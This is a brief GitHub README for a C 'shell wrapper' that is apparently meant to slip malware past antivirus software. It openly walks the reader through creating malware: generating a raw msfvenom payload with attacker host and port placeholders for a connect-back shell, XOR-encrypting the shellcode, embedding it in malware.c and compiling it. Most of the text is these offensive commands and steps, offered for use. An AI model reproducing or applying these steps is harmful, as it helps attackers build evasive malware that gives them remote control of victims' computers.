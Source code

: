 # AV_bypass_shellwrapper
Shell wrapper script written in C language to bypass AVs

To  create you own malware create a raw msfvenom payload
```
msfvenom -p <payload_type> LHOST=<lhost> LPORT=<lport> -f raw -o shellcode.bin

````

XOR encrypt the payload
```
xor.py shellcode.bin
```

Add the Encrpted shellcode with the variable c inside the malware.c 

Compile the code using Visual Studio IDE
